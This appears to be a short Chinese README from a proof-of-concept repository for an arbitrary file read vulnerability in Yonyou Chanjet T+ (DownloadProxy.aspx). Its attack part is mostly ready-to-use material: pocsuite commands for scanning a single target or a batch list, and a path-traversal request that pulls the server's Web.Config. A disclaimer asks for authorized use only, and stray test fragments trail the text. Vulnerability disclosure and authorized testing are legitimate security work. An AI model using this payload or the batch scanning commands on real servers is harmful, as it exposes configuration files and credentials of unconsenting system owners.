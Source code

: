 #  用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 1.漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 2.漏洞影响

用友 畅捷通T+

## 3.漏洞检测

单个检测：pocsuite -r "T+.py" -u url

批量检测：pocsuite -r "T+.py" -f 1.txt --verify

## 4.漏洞验证

```
poc：/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。# test
# -T-
